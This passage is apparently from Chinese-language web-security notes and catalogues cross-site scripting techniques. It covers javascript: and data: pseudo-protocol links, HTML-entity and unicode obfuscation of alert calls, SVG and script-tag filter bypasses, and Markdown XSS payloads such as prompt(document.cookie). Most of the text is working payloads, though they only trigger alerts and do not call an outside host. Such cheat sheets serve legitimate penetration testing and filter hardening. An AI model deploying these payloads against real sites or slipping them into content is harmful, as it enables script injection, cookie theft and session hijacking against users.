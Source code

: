 - 特殊标签
    - 以下中的脚本无法执行
    - `<title>`, `<textarea>`, `<iframe>`, `<plaintext>`, `<noscript>`...

- 伪协议
    - javascript:
        - `<a href=javascript:alert(1) >xss</a>`
    - data:
        - `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>xss</a>`
- Javascript自解码机制
    - `<input type="button" onclick="document.write('&lt;img src=@ onerror=alert(1) /&gt;')" />`
    - 会成功`alert(1)`，因为javascript位于HTML中，在执行javascript前会先解码HTML编码
    - 但若是包在`<script>`中的javascript，不会解码HTML编码
    - 此编码为HTML entity和`&#xH;`(hex), `&#D;`(dec)形式

- Javascript中有三套编码/解码函数
    - escape/unescape
    - encodeURI/decodeURI
    - encodeURIComponent/decodeURICompinent

- 一些alert(document.domain)的方法
    - `(alert)(document.domain);`
    - `al\u0065rt(document.domain);`
    - `al\u{65}rt(document.domain);`
    - `window['alert'](document.domain);`
    - `alert.call(null,document.domain);`
    - `alert.bind()(document.domain);`
    - https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309

- Some Payload
    - `<svg/onload=alert(1);alert(2)>`
    - `<svg/onload="alert(1);alert(2)">`
    - `<svg/onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;;alert(2)">`
        - `;;`改成`;`会失败
        - 双引号可去掉
        - 可10进制, 16进制混合
    - `<svg/onload=\u0061\u006c\u0065\u0072\u0074(1)>`
        - \u形式只能用在javascript，例如onload的a改成\u0061会失败
    - `<title><a href="</title><svg/onload=alert(1)>`
        - title优先权较大，直接中断其他标籤
    - `<svg><script>prompt&#40;1)</script>`
        - 因为`<svg>`，HTML Entities会被解析
        - 去掉`<svg>`会失败，`<script>`不会解析Entities
    - `<? foo="><script>alert(1)</script>">`
    - `<! foo="><script>alert(1)</script>">`
    - `</ foo="><script>alert(1)</script>">`
    - `<% foo="><script>alert(1)</script>">`

- Markdown XSS
    - `[a](javascript:prompt(document.cookie))`
    - `[a](j a v a s c r i p t:prompt(document.cookie))`
    - `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
    - `[a](javascript:window.onerror=alert;throw%201)`
    - ...
